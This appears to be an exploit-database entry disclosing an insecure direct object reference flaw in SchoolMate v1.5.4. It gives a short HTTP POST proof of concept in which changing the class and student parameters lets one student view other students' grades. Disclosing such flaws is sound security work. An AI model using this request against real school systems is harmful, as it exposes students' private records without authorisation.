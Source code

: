 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker student to look up grade of other student in every class(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

page2=3&logout=&page=4&selectclass=1(CHANGE HERE)&student=3(CHANGE HERE)
```